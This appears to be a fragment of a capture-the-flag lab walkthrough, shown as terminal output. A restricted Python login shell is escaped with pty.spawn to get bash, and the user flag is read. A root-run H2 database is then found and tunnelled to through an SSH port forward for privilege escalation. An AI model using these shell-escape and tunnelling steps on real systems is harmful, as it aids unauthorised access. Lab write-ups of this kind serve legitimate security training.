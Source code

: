 55 packages can be updated.  
3 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Dec 4 12:39:17 2018 from 10.10.13.22  
Python 3.6.5 (default, Apr 1 2018, 05:46:30)  
[GCC 7.3.0] on linux  
Type "help", "copyright", "credits" or "license" for more information.  
>>> import pty  
>>> pty.spawn("/bin/bash")  
daniel@hawk:~$ cat /home/daniel/user.txt  
d51##########################2a8  
daniel@hawk:~$ ps aux | grep h2  
root 775 0.0 0.0 4628 784 ? Ss 12:32 0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar  
root 776 4.8 12.7 2360324 125624 ? Sl 12:32 0:23 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar  
daniel 2355 0.0 0.1 13108 1100 pts/3 S+ 12:40 0:00 grep h2

daniel@hawk:~$ exit  
exit  
32512  
>>> exit()  
Connection to 10.10.10.102 closed.

root@kali:~# ssh -L 8000:localhost:8082 daniel@10.10.10.102  
daniel@10.10.10.102's password:  
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

* Documentation: https://help.ubuntu.com  
* Management: https://landscape.canonical.com  
* Support: https://ubuntu.com/advantage

System information as of Tue Dec 4 12:42:16 UTC 2018

System load: 0.08 Processes: 128  
Usage of /: 54.1% of 9.78GB Users logged in: 1  
Memory usage: 55% IP address for ens33: 10.10.10.102  
Swap usage: 0%

* Meltdown, Spectre and Ubuntu: What are the attack vectors,  
how the fixes work, and everything else you need to know  
- https://ubu.one/u2Know

* Canonical Livepatch is available for installation.  
- Reduce system reboots and improve kernel security. Activate at:  
https://ubuntu.com/livepatch

55 packages can be updated.  
3 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Dec 4 12:41:21 2018 from 10.10.14.118  
Python 3.6.5 (default, Apr 1 2018, 05:46:30)  
[GCC 7.3.0] on linux  
Type "help", "copyright", "credits" or "license" for more information.

Broadcast message from root@hawk (somewhere) (Tue Dec 4 12:49:14 2018):

got it